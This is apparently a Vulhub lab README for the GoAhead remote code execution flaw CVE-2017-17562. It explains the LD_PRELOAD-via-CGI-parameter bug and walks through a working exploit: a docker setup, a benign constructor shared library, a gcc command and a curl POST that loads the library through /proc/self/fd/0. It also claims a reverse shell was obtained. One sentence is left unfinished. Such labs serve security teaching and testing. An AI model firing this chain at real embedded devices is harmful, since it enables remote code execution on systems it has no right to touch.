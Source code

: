 # GoAhead 远程命令执行漏洞（CVE-2017-17562）

[中文版本(Chinese version)](README.zh-cn.md)

Embedthis GoAhead is the world's most popular, tiny embedded web server, which is deployed in hundreds of millions of devices and is ideal for the smallest of embedded devices.

GoAhead before 3.6.5 allows remote code execution if CGI is enabled and a CGI program is dynamically linked. This is a result of initializing the environment of forked CGI scripts using untrusted HTTP request parameters in the cgiHandler function in `cgi.c`. When combined with the glibc dynamic linker, this behaviour can be abused for remote code execution using special parameter names such as `LD_PRELOAD`. An attacker can POST their shared object payload in the body of the request, and reference it using /proc/self/fd/0.

References:

 - https://www.elttam.com.au/blog/goahead/
 - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb

## Vulnerable environment

Execute following commands to start a GoAhead 3.6.4:

```
docker-compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI Scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on Vulhub's x86/64 environment:

```
gcc -shared -fPIC ./payload.c -o payload.so
```

Use curl to trigger the attack:

```
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

Response header is output successful, which 

The request header `Hello: world!` is printed to indicate that the code has been executed:

![](1.png)

A reverse shell is got:

![](2.png)